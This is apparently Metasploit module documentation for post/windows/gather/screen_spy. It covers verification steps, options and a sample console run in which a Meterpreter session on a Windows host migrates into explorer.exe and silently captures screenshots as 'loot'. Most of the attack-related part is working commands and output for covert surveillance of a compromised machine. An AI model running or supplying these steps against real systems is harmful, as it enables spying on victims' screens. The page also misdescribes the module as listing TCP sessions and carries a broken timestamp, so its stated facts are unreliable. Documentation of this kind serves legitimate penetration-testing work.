 ## Vulnerable Application

  This Module lists current TCP sessions.

## Verification Steps

  1. Start `msfconsole`
  2. Get meterpreter session
  3. Do: `use post/windows/gather/screen_spy`
  4. Do: `set SESSION <session id>`
  5. Do: `run`

## Options

  ```
  SESSION
  ```
  The session to run the module on.

## Scenarios

  ```
  [*] Meterpreter session 1 opened (192.168.1.3:4444 -> 192.168.1.10:49184) at 201 9-12-12 14:55:42 -0700


  msf > use post/windows/gather/screen_spy
  msf post(windows/gather/screen_spy) > set SESSION 1
    SESSION => 1
  msf post(windows/gather/screen_spy) > run

    [*] Migrating to explorer.exe pid: 1908
    [+] Migration successful
    [*] Capturing 6 screenshots with a delay of 5 seconds
    [*] Screen Spying Complete
    [*] run loot -t screenspy.screenshot to see file locations of your newly acquired loot
    [*] Post module execution completed
  ```
